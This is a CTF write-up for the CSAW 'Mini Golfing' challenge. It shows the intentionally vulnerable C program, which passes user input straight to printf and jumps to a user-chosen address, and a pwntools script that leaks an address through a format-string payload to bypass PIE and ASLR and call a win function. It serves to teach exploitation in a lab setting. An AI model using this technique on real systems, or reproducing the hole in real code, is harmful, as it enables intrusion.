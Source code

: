 ```yaml
---
title: CSAW CTF - Mini Golfing
description: A network forensics CTF chall. writeup.
date: "2024-09-20"
---
```


![first](/blog-post-1.jpg)

## Let's get cracking...

### Challenge Description:

`Let’s go mini golfing! To win, just aim correctly! Except the hole with the pin keeps moving…`

Following is the main challenge file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

#define MAX_STRINGS 32

void win() {
    system("cat /flag.txt");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
            
    fflush(stdout);
    fflush(stdin);

    uintptr_t address;
    char *all_strings[MAX_STRINGS] = {NULL};
 char buf[1024] = {'\0'};

    printf("Welcome to PWN GOLF.\n");
    printf("Would you like to enter your name? ");
   
    fgets(buf, 1024, stdin);
    printf("hello: ");
 printf(buf);
   
    printf("\nAlright! Tell me the address you want to aim at!: ");
    scanf("%lx", &address);
    void (*target)(void) = (void(*))address;
    printf("Ok jumping to that address...");
    target();

    return 0;
}
```

## Challenge Breakdown:

It was a classic PWN challenge where the goal was to exploit a vulnerable program that allowed you to jump to any address you provided. The twist, however, was that both Position Independent Executable (`PIE`) and Address Space Layout Randomization (`ASLR`) were enabled, making it impossible to use static addresses to hijack the control flow. This meant I had to come up with a creative way to bypass the randomized memory layout. Instead of relying on known addresses, I had to leak or brute force information about the memory space to find where the key functions or gadgets were located.

### Solution:

```python
from pwn import *
from pwn import p64

binary = ELF("./golf")
#conn = process(binary.path)
conn = remote("localhost", 9999)

exploit = "%171$p"
conn.sendline(exploit)
leaked_address = conn.recvuntil(b"\n\n").split()
leaked_address = leaked_address[-1].decode('UTF-8')

leaked_addr_int = int(leaked_address, 16)

win_addr = leaked_addr_int - 26
win_addr = hex(win_addr)

conn.sendline(win_addr)
conn.interactive()
```

This exploit script solves the challenge by leveraging a format string vulnerability to leak the memory address of the `main` function. Since both `PIE` and `ASLR` are enabled, the program's memory layout is randomized, so static addresses cannot be used. The format string payload `%171$p` retrieves the address of the `main` function from the program's stack. Once the address is leaked and parsed, the script calculates the address of the `win` function by subtracting 26 (determined through prior reverse engineering). This offset allows the script to adjust for the randomized memory layout, effectively bypassing `ASLR` and `PIE` protections. The calculated `win` address is then sent, causing the program to jump to and execute the `win` function, thereby achieving code execution and solving the challenge.

**Flag:** `csawctf{I_doNT_want_t0_g0_901FING_AnymOrE_pl34S3_Thank_you_!!!}`



## MUHAMMAD ABDULLAH
## THANKS
